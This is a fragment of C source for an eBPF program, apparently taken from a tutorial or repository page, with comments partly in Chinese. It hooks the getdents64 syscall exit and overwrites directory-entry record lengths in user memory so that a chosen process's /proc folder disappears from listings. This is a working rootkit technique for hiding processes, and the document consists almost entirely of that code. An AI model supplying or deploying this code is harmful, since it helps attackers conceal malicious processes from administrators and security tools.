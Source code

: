 ```c
}

SEC("tp/syscalls/sys_exit_getdents64")
int handle_getdents_patch(struct trace_event_raw_sys_exit *ctx)
{
    // Only patch if we've already checked and found our pid's folder to hide
    size_t pid_tgid = bpf_get_current_pid_tgid();
    long unsigned int *pbuff_addr = bpf_map_lookup_elem(&map_to_patch, &pid_tgid);
    if (pbuff_addr == 0)
    {
        return 0;
    }

    // Unlink target, by reading in previous linux_dirent64 struct,
    // and setting it's d_reclen to cover itself and our target.
    // This will make the program skip over our folder.
    long unsigned int buff_addr = *pbuff_addr;
    struct linux_dirent64 *dirp_previous = (struct linux_dirent64 *)buff_addr;
    short unsigned int d_reclen_previous = 0;
    bpf_probe_read_user(&d_reclen_previous, sizeof(d_reclen_previous), &dirp_previous->d_reclen);

    struct linux_dirent64 *dirp = (struct linux_dirent64 *)(buff_addr + d_reclen_previous);
    short unsigned int d_reclen = 0;
    bpf_probe_read_user(&d_reclen, sizeof(d_reclen), &dirp->d_reclen);

    // Debug print
    char filename[MAX_PID_LEN];
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp_previous->d_name);
    filename[pid_to_hide_len - 1] = 0x00;
    bpf_printk("[PID_HIDE] filename previous %s\n", filename);
    
    bpf_probe_read_user_str(&filename, pid_to_hide_len, dirp->d_name);
    filename[pid_to_hide_len - 1] = 0x00;
    bpf_printk("[PID_HIDE] filename next one %s\n", filename);

    // Attempt to overwrite
    // 核心操作，进行覆盖操作
    // 类似从某个链表中删除某个元素
    short unsigned int d_reclen_new = d_reclen_previous + d_reclen;
    long ret = bpf_probe_write_user(&dirp_previous->d_reclen, &d_reclen_new, sizeof(d_reclen_new));

    // Send an event
    struct event *e;
    e = bpf_ringbuf_reserve(&rb, sizeof(*e), 0);
    if (e)
    {
        e->success = (ret == 0);
        e->pid = (pid_tgid >> 32);
        bpf_get_current_comm(&e->comm, sizeof(e->comm));
        bpf_ringbuf_submit(e, 0);
    }

    bpf_map_delete_elem(&map_to_patch, &pid_tgid);
    return 0;
}
```
